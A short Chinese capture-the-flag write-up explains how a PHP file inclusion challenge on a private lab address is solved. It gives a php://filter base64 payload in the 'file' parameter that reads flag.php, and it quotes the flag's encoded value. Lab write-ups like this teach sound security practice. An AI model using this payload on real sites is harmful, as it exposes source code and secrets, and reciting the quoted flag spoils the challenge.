 # 01.你能看到这个文件嘛？

1. 题目问能否“看到”这个文件，故从“看看”这个文件内容着手。

2. 构造 payload ：
   > file=php://filter/convert.base64-encode/resource=flag

   即访问 URL ：
   > http://192.168.1.1:8083/ctf/8/index.php?file=php://filter/convert.base64-encode/resource=flag

   可以得到 `flag.php` 经 *base64编码* 后的源代码。

3. 进行 *[base64解码](../../../misc/base64.md)* 后，可见源代码中有一句：

   ```php
   $flag = urldecode(base64_decode('MGNlZTdhMTZkMzUyMDM4NDdiMjJiNzAwODZmM2Q3OTA='));
   ```

4. 在php运行环境中执行上述代码即得答案。
